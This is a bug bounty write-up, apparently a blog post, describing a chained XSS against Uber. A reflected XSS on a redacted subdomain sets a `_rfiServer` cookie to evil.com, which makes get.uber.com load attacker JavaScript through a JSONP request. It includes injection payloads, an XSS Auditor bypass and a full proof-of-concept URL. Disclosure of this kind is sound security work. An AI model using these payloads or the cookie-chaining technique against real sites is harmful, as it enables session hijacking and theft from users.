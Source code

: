 ```yaml
---
layout: post
title: Uber XSS via Cookie
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;This write up is about part of my latest XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

&nbsp;&nbsp;&nbsp;Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was jsonp, and my target domain was `https://get.uber.com`. Let’s look at what I had found at that time.

{% highlight javascript %}
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
{% endhighlight %}

<img src="https://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe8cbagsj21d00r0gsw.jpg">

&nbsp;&nbsp;&nbsp;Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know the essence of JSONP. The next step was searching everything about `rfiServer`.

<img src="https://wx3.sinaimg.cn/mw690/9c5c5d93ly1fxqe84lvb3j20tm0f042c.jpg">

After reading through these lines of code:

{% highlight javascript %}
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
{% endhighlight %}

&nbsp;&nbsp;&nbsp;We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

&nbsp;&nbsp;&nbsp;Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

{% highlight javascript %}
document.cookie = '_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
{% endhighlight %}

<img src="https://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe87abluj20yt0u0qel.jpg">

## XSS of .uber.com which is Out of Scope

I did really find out one reflected XSS in one of Uber’s subdomain using search engine. Let’s call the domain `<redacted>.uber.com` for demo.

<img src="https://wx4.sinaimg.cn/mw690/9c5c5d93ly1fxqe89pzq4j21dw0fy79z.jpg">

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror.`

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer `cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

{% highlight javascript %}
https://<redacted>.uber.com/<redacted>?
email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
#document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
{% endhighlight %}

Thanks for Uber. Reward: 5k

